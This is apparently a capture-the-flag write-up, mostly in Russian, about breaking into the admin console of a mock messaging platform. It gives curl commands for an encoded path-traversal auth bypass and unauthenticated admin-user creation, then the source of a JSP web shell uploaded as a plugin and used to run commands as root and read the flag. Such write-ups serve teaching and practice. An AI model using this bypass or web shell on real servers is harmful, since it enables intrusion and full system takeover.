

```text
Description:

PulseRelay is an enterprise real-time messaging infrastructure platform by Relay Systems Corp. The admin console provides server configuration, user management, plugin extensions, and monitoring dashboards. The platform powers internal communications for several organizations.

Your goal is to gain unauthorized access to the administration console and retrieve the flag from the server.

The application runs an embedded Jetty server with custom path-based access control. Explore the application's routing, authentication mechanisms, and plugin management features to find a way in.

Credentials: user / password123
```
# Уязвимость
```text
Path traversal** в auth-фильтре (/setup/%2e%2e/admin/... → обход) + отсутствие role-check на создании юзера → админ. Далее RCE через JAR-плагин с JSP → чтение /root/flag.txt.
```
# Разведка и решение
Сначало логинимся с предоставленными кредами и видим dashboard. Проверим robots.txt :
```text
User-agent: *
Disallow: /admin/
Disallow: /setup/
Disallow: /plugins/
```
Передем на ручку ``/setup`` и посмотрим содержимое страницы:

Ручка фильтруется, поэтому надо найти обход этой фильтрации. Путем перебора нашел способ обойти фильтрацию ``/setup/%2e%2e/admin/users``. Попробуем скачать страницу с пользователями:
```bash
HOST='<target>'
BASE="https://$HOST"
curl -i -s --path-as-is --insecure \
  -c cookies.txt \
  "$BASE/setup/%2e%2e/admin/users" -o users.html
```
Открыв скаченную страницу, видим полноценную страницу **User Management** без логина. Тем самым мы подтвердили обход. Посмотрим на форму **Create User**, чтобы создать нового пользователя с правами администратора. Дальше извлекаем CSRF-токен из скачанной страницы и создаем нового пользователя:
```bash
curl -i -s --insecure --path-as-is \
  -b cookies.txt -c cookies.txt \
  -X POST "$BASE/setup/%2e%2e/admin/users/create" \
  --data-urlencode "csrf_token=$CSRF" \
  --data-urlencode "username=pwned" \
  --data-urlencode "display_name=Pwned Admin" \
  --data-urlencode "email=pwned@example.com" \
  --data-urlencode "password=Passw0rd123" \
  --data-urlencode "role=admin"
```
Ответ сервера
```bash
{"success": true, "message": "User created successfully"}
```
Теперь напишем вредоносный код для RCE и положим его в архив. После загрузим как плагин на сервер.
```java
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
        BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = br.readLine()) != null) out.println(line);
    }
%>
```
Получаем CSRF со страницы плагинов и загружаем JAR:
```bash
curl -s --insecure -b admin_cookies.txt "$BASE/admin/plugins" -o plugins.html
PCSRF=$(sed -n 's/.*name="csrf_token" value="\([^"]*\)".*/\1/p' plugins.html | head -1)

curl -i -s --insecure -b admin_cookies.txt -c admin_cookies.txt \
  -X POST "$BASE/admin/plugins/upload" \
  -F "csrf_token=$PCSRF" \
  -F "plugin_name=evil" \
  -F "plugin_version=1.0.0" \
  -F "plugin_description=evil" \
  -F "plugin_file=@evil.jar;type=application/java-archive"
```
Перебираем вероятные пути к распакованному JSP:
```bash
for p in /plugins/cmd.jsp /plugins/evil/cmd.jsp /plugins/evil-1.0.0/cmd.jsp; do
  code=$(curl -s -o /dev/null -w "%{http_code}" --insecure "$BASE$p?cmd=id")
  echo "$code  $p"
done
```
Рабочий путь — `/plugins/evil/cmd.jsp`. Проверяем RCE:
```bash
curl -s --insecure "$BASE/plugins/evil/cmd.jsp?cmd=id"
# uid=0(root) gid=0(root) groups=0(root)
```
Теперь остается только прочитать флаг:
```bash
curl -s --insecure "$BASE/plugins/evil/cmd.jsp?cmd=cat%20/root/flag.txt"
```